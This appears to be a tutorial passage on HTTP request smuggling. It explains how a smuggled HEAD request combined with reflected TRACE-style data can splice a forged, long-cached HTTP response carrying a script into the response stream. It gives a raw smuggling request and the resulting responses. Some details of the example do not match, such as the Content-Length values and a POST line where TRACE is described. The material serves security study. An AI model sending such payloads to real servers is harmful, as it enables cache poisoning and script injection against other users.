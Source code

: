 Continue following [**this post**](https://portswigger.net/research/trace-desync-attack) is suggested another way to abuse the TRACE method. As commented, smuggling a HEAD request and a TRACE request it's possible to **control some reflected data** in the response to the HEAD request. The length of the body of the HEAD request is basically indicated in the Content-Length header and is formed by the response to the TRACE request.

Therefore, the new idea would be that, knowing this Content-Length and the data given in the TRACE response, it's possible to make the TRACE response contains a valid HTTP response after the last byte of the Content-Length, allowing an attacker to completely control the request to the next response (which could be used to perform a cache poisoning).

Example:

```
GET / HTTP/1.1
Host: example.com
Content-Length: 360

HEAD /smuggled HTTP/1.1
Host: example.com

POST /reflect HTTP/1.1
Host: example.com

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
```

Will generate these responses (note how the HEAD response has a Content-Length making the TRACE response part of the HEAD body and once the HEAD Content-Length ends a valid HTTP response is smuggled):


```
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0

HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165

HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243

SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50

<script>alert(“arbitrary response”)</script>
```
